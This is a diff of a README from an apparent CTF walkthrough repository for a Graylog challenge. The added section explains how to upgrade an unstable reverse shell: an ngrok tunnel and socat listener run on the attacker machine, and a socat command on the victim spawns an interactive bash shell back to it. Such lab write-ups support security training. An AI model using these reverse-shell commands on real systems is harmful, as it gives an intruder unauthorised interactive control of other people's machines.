

Before and after one commit to HACKERverse-ctf/GraylogCTF, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -51,6 +51,20 @@ After setting up a listener, run the `dropin.sh` from the location above with th
 ./dropin.sh
 ```
 This will get you the reverse shell as.
+
+Now this shell is not stable, so to get a stable reverse shell to perform next steps use the following command on the attacker machine.
+```bash
+ngrok tcp 4242
+socat file:`tty`,raw,echo=0 TCP-L:4242
+```
+
+and run the following command on the unstable reverse shell.
+
+```bash
+socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:127.0.0.1:4242
+```
+
+Make sure to change the IP address and the port number on these two commands, and also one thing to note here is that ngrok does not provide the functionality to forward two ports at one time, so to overcome this you may have a paid version or use two different machines on the same network like a virtual machine with different ngrok account.
 #### 7. Enumeration
 
 Perform enumeration to gather information about the system:
````
